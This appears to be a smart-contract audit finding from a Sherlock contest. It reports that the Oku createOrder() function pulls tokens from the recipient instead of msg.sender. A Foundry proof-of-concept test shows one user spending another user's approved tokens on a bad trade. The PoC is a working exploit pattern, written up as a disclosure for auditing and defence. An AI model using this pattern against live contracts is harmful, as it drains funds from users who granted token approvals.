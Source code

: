 Mean Brown Barbel

High

# `createOrder` transfers assets from recipient instead of msg.sender

### Summary

The `createOrder()` function allows the creation of all types of orders, but it transfers the input token from the recipient's address instead of `msg.sender`. This enables any user to create an order on behalf of the recipient, as long as the recipient has granted approval to the OracleLess or StopLimit contract for asset transfers. If the recipient has provided excessive asset approvals to these contracts, their funds could be drained by malicious users triggering `createOrder()`

### Root Cause

Assumption of msg.sender will be recipient is incorrect which is root cause of the issue

### Internal pre-conditions

Alice has approved OracleLess contract for a surplus amount of assets, which is a common real-life scenario.
https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/OracleLess.sol#L38

### Impact

An attacker can initiate a malicious trade for the recipient, potentially draining the recipient's entire balance.

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import "forge-std/Test.sol";
import "../src/automatedTrigger/OracleLess.sol";
import "../src/automatedTrigger/IAutomation.sol";
import "../src/automatedTrigger/AutomationMaster.sol";
import "../src/automatedTrigger/StopLimit.sol";
import "../src/interfaces/uniswapV3/IPermit2.sol";
import {MockERC20} from "./mocks/MockERC20.sol";
//import {IPythRelay} from "../src/oracle/IPythRelay.sol";
//import {MockPythRelay} from "./mocks/MockPythRelay.sol";



contract SherlockContestTest is Test {
    OracleLess public oracleLess;
    AutomationMaster public automationMaster;
    IPermit2 public permit2;
    StopLimit public stopLimit;
    // Test tokens
    MockERC20 public mockTokenIn;
    MockERC20 public mockTokenOut;
    MockPythRelay public mockOracleIn;
    MockPythRelay public mockOracleOut;

    // Test accounts
    address public owner;
    MaliciousTarget public maliciousTarget;

    function setUp() public {
        // Set up accounts
        owner = address(this);

        // Deploy dependencies
        automationMaster = new AutomationMaster();
        permit2 = IPermit2(deployPermit2()); // You'll need to implement this or use a mock

        // Deploy main contract
        oracleLess = new OracleLess(automationMaster, permit2);
        stopLimit = new StopLimit(automationMaster, IBracket(address(0)), permit2);

        // Deploy test tokens
        mockTokenIn = new MockERC20("Token A", "TKNA", 18);
        mockTokenOut = new MockERC20("Token B", "TKNB", 18);


        mockOracleIn = new MockPythRelay();
        mockOracleOut = new MockPythRelay();

        // Setup oracles in AutomationMaster
        IERC20[] memory tokens = new IERC20[](1);
        tokens[0] = IERC20(address(mockTokenIn));
        IPythRelay[] memory relays = new IPythRelay[](1);
        relays[0] = IPythRelay(address(mockOracleIn));
        automationMaster.registerOracle(tokens, relays);

        // Do the same for mockTokenOut
        tokens[0] = IERC20(address(mockTokenOut));
        relays[0] = IPythRelay(address(mockOracleOut));
        automationMaster.registerOracle(tokens, relays);

        automationMaster.setMaxPendingOrders(10);

        automationMaster.setMinOrderSize(1);
    }

    function deployPermit2() internal returns (address) {
        // You can either:
        // 1. Deploy a mock Permit2
        // 2. Fork mainnet and use the real Permit2 address
        // 3. Deploy the actual Permit2 contract
        // For this example, let's assume we're using a mock
        return address(0x1); // Replace with actual deployment
    }
    function test_createOrderForAnotherUser() public {
        // Setup Bob with initial tokens and approval
        address bob = makeAddr("bob");
        address alice = makeAddr("alice");
        uint256 initialAmount = 1000e18;
        mockTokenIn.mint(bob, initialAmount);

        // Bob approves the contract
        vm.prank(bob);
        mockTokenIn.approve(address(oracleLess), type(uint256).max);

        // Alice creates order using Bob's funds
        vm.prank(alice);
        uint256 amountIn = 100e18;
        uint96 orderId = oracleLess.createOrder(
            IERC20(address(mockTokenIn)),
            IERC20(address(mockTokenOut)),
            amountIn,
            95e18, // minAmountOut
            bob, // Bob as recipient
            0, // feeBips
            false, // permit
            "" // permitPayload
        );

        // Assert that Bob's balance decreased even though Alice created the order
        assertEq(
            mockTokenIn.balanceOf(bob),
            initialAmount - amountIn,
            "Bob's balance should not have decreased from Alice's action"
        );

        // Assert order details
        (,,, uint256 orderAmountIn,, address recipient,) = oracleLess.orders(orderId);
        assertEq(orderAmountIn, amountIn, "Order amount should match");
        assertEq(recipient, bob, "Recipient should be Bob");
    }

}
```

run `test_createOrderForAnotherUser ` which shows that Alice can create order of BOB which fetches the tokens from BOB and create a bad trade. Alice can put zero slippage and  very bad trade will be executed where BOB will loose all the funds 

### Mitigation

_No response_